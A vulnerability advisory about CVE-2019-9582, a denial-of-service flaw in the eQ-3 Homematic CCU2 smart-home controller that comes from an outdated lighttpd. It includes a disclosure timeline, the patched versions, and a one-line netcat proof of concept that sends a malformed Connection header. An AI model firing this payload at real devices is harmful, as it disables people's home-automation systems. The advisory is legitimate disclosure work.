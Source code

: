 ```yaml
---
layout: post
title:  "CVE-2019-9582 eQ-3 Homematic CCU2 outdated base software packages allows Denial of Service"
date:   2019-12-10 19:30:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-9582
- Author: psytester
- Title: eQ-3 Homematic CCU2 outdated base software packages allows Denial of Service
- Vulnerability Type: CWE-400 Uncontrolled Resource Consumption
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 24.07.2019
- Updated: 10.12.2019
- Vendor: eQ-3 AG	
- Product: Homematic CCU2
- Vendor contacted: 29.01.2019
- Vendor confirmation: 27.04.2019
- Vendor patch: 2.49.17 since 09.12.2019
- Vendor Reference: [HMCCU-359] in changelog of CCU2
- Affected Firmware version: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7, 2.47.10, 2.47.12, 2.47.15, 2.47.20 tested


# Background

From [vendor's website](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]


# Issue Description

The analysis of the underlying operating system of the CCU2 revealed that the BusyBox version 1.20.2 from 2012 with a Buildroot 2012.08 is installed as embedded Linux and that other outdated software packages are also used.

Just to name a few:
```
Buildroot 2012.08
BusyBox: v1.20.2
OpenSSH: 6.0p1
wget: GNU Wget 1.13.4
lighttpd: 1.4.31
Up to CCU2 Firmware < 2.47.10: Java(TM) SE Embedded Runtime Environment (build 1.8.0_121-b13, profile compact3, headless)
Since CCU2 Firmware >= 2.47.10: Java(TM) SE Embedded Runtime Environment (build 1.8.0_201-b09, profile compact3, headless)
Tcl Tk: 8.2.3
....
```

After a search for already known CVE entries, the lighttpd process proved to be susceptible because of [CVE-2012-5533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5533=CVE-2012-5533).<br>

This vulnerability can be exploited by unauthenticated attackers with access to the web interface:
~~~shell
echo -ne "GET / HTTP/1.1\r\nHost: 1.2.3.4\r\nConnection: TC,,Keep-Alive\r\n\r\n" | nc 1.2.3.4 80
~~~
After that the lighttpd is permanently in 99% CPU load and the CCU2 does not react anymore with its ReGa core process because the resources are used up:
```
PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
  321     1 root     R     5548   2%  99% /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
```
Just a restart of lighttpd process seems to be not enough to fix the overload condition, a reboot is required.

There might be much more vulnerabilities, as written in my German [blog post](https://psytester.github.io/embedded_Linux_Busybox_Buildroot/) about outdated embedded Linux Busybox/Buildroot installations.

# CVE

[CVE-2019-9582](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9582)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

# Base software is updated now since December 2019
10 months later the software is almost up-to-date now and this CVE is fixed.
```
Buildroot: 2019.05
BusyBox: v1.30.1
OpenSSH: 7.9p1
wget: GNU Wget 1.20.3
lighttpd: 1.4.53
java version 1.8.0_201
```

This is strange but somehow expected. The newer CCU3 hardware has now an older software base line. ;-)
```
Buildroot: 2018.08.2
BusyBox: v1.29.2
OpenSSH: 7.8p1
wget: GNU Wget 1.19.5
lighttpd: 1.4.50
```

# Credit
All researchers.<br>
[cvedetails](https://www.cvedetails.com/) for scanning and preparing all CVEs, separated by vendor and product.<br>
me, but I simply scanned known CVEs to use them.

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
